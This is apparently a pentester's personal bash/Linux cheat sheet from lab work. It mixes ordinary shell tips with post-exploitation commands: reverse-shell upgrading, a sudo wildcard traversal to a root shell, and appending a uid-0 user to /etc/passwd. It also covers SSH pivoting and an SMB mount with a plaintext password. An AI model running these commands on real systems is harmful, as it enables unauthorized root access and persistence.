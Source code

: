 __tags: bash linux tech

## ps, only list certain cats

```bash
ps -e -o user,pid,command
```

## ps, forest view to see process children

```bash
ps -ef --forest

```


## login ssh with custom id_rsa

```
ssh -i id_rsa dexter@10.10.10.216
```

## Easy Pretty bash shell after you connect with nc (yes, this still works well!!!)

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo
fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

- use `stty sane` to revert!!!!
- you can also just use `python3 -c 'import pty;pty.spawn("/bin/bash")'` and this sometimes works for a half complete but prettier shell (better than sh)



## Port Forward and Double Hop with SSH

```
ssh -L 5555:10.10.10.8:3389 -J dog@192.168.1.12 cat@192.168.122.36

```

## Expose Ports using remote forwarding
```
ssh -N -f -R 3000:localhost:3000 -R 8001:localhost:8001 root@10.10.14.40 -p 2222
```

##  **Sudo command** as a specific user (run after a sudo -l)

```
sudo -u onuma tar
```

## **Sudo Commnd** file description

```
User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*


## This means I can run the "nice" command for everything in the "/notes/" dir, however since we use a "*" this can include ".." thus to get root:

sudo /bin/nice /notes/../bin/bash
```

## Add user to passwd file

```
openssl passwd -crypt -salt salty passwordy


    openssl passwd -crypt -salt xx password

prints xxj31ZMTZzkVA. --> Put this in column two of passwd

    openssl passwd -1 -salt xxxxxxxx password

prints $1$xxxxxxxx$UYCIxa628.9qXjpQCjM4a. --> Put this in column two of passwd

    openssl passwd -apr1 -salt xxxxxxxx password

prints $apr1$xxxxxxxx$dxHfLAsjHkDRmG83UXe8K0. 
```

## Add user to passwd file (easier way)

```
openssl passwd evil
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```


## Enumerate for "unique" bins:

```
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
```


## Convert Windows UTF16 files to Linux UTF8

```
echo "windows" | iconv UTF-16LE -t UTF-8

```

## Run less with WINPEAS colors (Bash colors)

```
less -R winpeas.txt
```

## Mount SMB Share to local fs

```
sudo mount -t cifs -o 'username="user", password="password"' //10.10.10.172/Users /mnt/folder
```

## Mount SMB Share for SMB 1.0

```
sudo mount -t cifs -o 'username="admin",password="$weetNess11#",vers=1.0' '//10.11.1.5/C$' /mnt/point/
```

## list kernel modules

```
lsmod
```

## Grep, look for text in files recursivly while ignoring certain file extensions!!!

```
fgrep -nr password --exclude=\*.js *
```

## Disable TMOUT Variable (auto logoff) in Bash if TMOUT is a READ-Only ENV Var

```bash
unset TMOUT > /dev/null 2>&1
if [ $? -ne 0 ]; then
  gdb <<EOF > /dev/null 2>&1
  attach $$
  call unbind_variable("TMOUT")
  detach
  quit
EOF
fi

```

## Bash Best Practice Template

```bash
#!/usr/bin/env bash

set -o errexit
set -o nounset
set -o pipefail
if [[ "${TRACE-0}" == "1" ]]; then
    set -o xtrace
fi

if [[ "${1-}" =~ ^-*h(elp)?$ ]]; then
    echo 'Usage: ./script.sh arg-one arg-two

This is an awesome bash script to make your life better.

'
    exit
fi

cd "$(dirname "$0")"

main() {
    echo do awesome stuff
}

main "$@"

```

